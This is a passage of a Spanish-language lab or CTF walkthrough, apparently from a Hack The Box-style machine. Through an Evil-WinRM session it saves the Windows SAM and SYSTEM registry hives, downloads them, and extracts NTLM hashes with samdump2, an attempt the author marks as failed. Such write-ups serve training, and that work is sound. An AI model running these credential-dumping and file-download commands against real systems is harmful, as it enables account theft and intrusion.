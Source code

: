 ```powershell

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### Dumping Credentials - SAM File Hashes (SeBackup Privilege) \[FAILED]

Probaremos de hacer un dump de la SAM para extraer el hash NTLM del usuario Administrator y verificar si nos sirve para ser usuarios administradores locales del equipo.

Exportaremos la `SAM` y `SYSTEM` y nos lo descargaremos en nuestro equipo local.

```powershell
*Evil-WinRM* PS C:\Temp> reg save HKLM\SAM C:\Temp\SAM
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> reg save HKLM\SYSTEM C:\Temp\SYSTEM
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/24/2025   7:41 AM          49152 SAM
-a----        1/24/2025   7:42 AM       15937536 SYSTEM

*Evil-WinRM* PS C:\Temp> download SAM
                                        
Info: Downloading C:\Temp\SAM to SAM
                                        
Info: Download successful!


*Evil-WinRM* PS C:\Temp> download SYSTEM
                                        
Info: Downloading C:\Temp\SYSTEM to SYSTEM
                                        
Info: Download successful!
```

A través de la herramienta de `samdump2`, extraemos los hashes NTLM de la `SAM`.

```bash
❯ samdump2 SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* ä:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
